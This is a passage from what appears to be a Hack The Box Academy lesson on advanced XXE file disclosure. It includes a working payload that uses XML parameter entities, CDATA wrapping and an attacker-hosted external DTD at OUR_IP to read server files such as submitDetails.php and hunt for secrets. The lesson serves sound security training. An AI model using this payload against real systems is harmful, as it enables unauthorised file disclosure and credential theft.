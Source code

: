 After that, if we reference the `&joined;` entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities`, so we will have to find a better way to do so.

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:

Code: xml

```xml
<!ENTITY joined "%begin;%file;%end;">
```

So, let's try to read the `submitDetails.php` file by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application, as follows:

  Advanced File Disclosure

```shell-session
ShibuShivansh@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
ShibuShivansh@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:

Code: xml

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Once we write our `xxe.dtd` file, host it on our machine, and then add the above lines to our HTTP request to the vulnerable web application, we can finally get the content of the `submitDetails.php` file: ![Image showing an HTTP POST request to /submitDetails.php with XML data, including a DOCTYPE declaration for an XXE attack. The response is an HTTP 200 OK with PHP code processing XML input, potentially vulnerable to XXE.](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg)

As we can see, we were able to obtain the file's source code without needing to encode it to base64, which saves a lot of time when going through various files to look for secrets and passwords.

**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.
